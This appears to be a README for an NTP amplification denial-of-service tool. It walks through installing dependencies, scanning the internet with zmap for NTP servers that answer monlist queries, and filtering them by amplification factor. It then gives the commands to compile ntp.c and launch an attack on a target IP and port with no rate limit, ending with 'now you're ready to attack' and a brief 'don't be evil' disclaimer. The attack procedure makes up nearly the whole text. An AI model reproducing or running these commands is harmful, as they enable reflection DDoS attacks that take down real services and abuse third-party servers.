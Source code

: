this is a NTP-AMP script for cyber security learning

operating system：centOS 7

prepare repositorys：Enter the command below

-----------------------------------------------
yum install gcc libcap  libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c
yum -y install zmap
--------------------------------------------------

Upload ntpchecker and ntp_123_monlist.pkt to your server
Enter the command below to start scanning agent list（it wil take a looong time so pls be patient）:

-------------------------------------------------------------------------------------------------
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
---------------------------------------------------------------------------------------------------

give ntpchecker 777 permission：
chmod 777 ntpchecker

Operational inspection：
screen ./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1

filter list:
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt

Compilation and attack:
yum install gcc libcap libpcap libpcap-devel 
gcc -lpthread ntp.c -lpcap -o ntp 
 
 ATTACK:
./ntp ip port list(ntpamp.txt) thread ppslimit(-1=no limit) attacktime(second)
example: ./ntp 127.0.0.1 80 ntpamp.list 1500 -1 600
 ok now you're ready to attack
 this script is just for cyber attack learning and pls don't be evil
 
